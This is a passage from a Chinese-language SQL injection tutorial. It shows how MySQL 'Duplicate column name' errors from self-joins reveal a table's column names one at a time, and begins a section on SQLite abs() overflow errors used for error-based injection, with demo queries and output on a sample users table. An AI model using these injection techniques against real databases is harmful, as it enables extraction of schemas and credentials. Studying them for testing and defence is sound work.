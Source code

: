 ```sql
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
| .. | ......   | ......     |
| 14 | admin4   | admin4     |
+----+----------+------------+
13 rows in set (0.00 sec)
```

这样我们就可以逐个爆出所有的列名了：

```sql
mysql> select * from (select * from users a join users b) c;
    ERROR 1060 (42S21): Duplicate column name 'id' # 爆出列名id

mysql> select * from (select * from users a join users b using(id)) c;
    ERROR 1060 (42S21): Duplicate column name 'username' # 爆出列名username

mysql> select * from (select * from users a join users b using(id,username)) c;
    ERROR 1060 (42S21): Duplicate column name 'password' # 爆出列名password

mysql> select * from (select * from users a join users b using(id,username,password)) c;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
| .. | ........ | .......... |
| 14 | admin4   | admin4     |
+----+----------+------------+ # 不报错，说明列名全都爆完了
```

### §3.1.5 `abs()`大数溢出注入

> 注意：本注入方法只适用于SQLite，不适用于MySQL和MariaDB。

[SQLite的官方文档-函数列表](https://www.sqlite.org/lang_corefunc.html)中提到了`abs()`函数的特性：

> - abs(X)
>
>   The abs(X) function returns the absolute value of the numeric argument X. Abs(X) returns NULL if X is NULL. Abs(X) returns 0.0 if X is a string or blob that cannot be converted to a numeric value. If X is the integer -9223372036854775808 then abs(X) throws an integer overflow error since there is no equivalent positive 64-bit two complement value.
>
>   abs(X)函数用于返回参数X的绝对值。参数X为`NULL`时返回值也为`NULL`；参数X为字符串或无法转换为数字的张量时返回值为`0.0`；参数X为`-2^63`时抛出整数溢出错误。（实际上，

`abs()`涉及到正负号转换，因此使用的是64位有符号整数。官方文档尚未指出的一点是，经实测：当参数X大于等于`0x8000000000000000`时就会报错。

```sqlite
sqlite> select abs(0x7fffffffffffffff);
9223372036854775807

sqlite> select abs(0x8000000000000000);
Runtime error: integer overflow

sqlite> select abs(0x7fffffffffffffff + 1);
9.22337203685478e+18
```
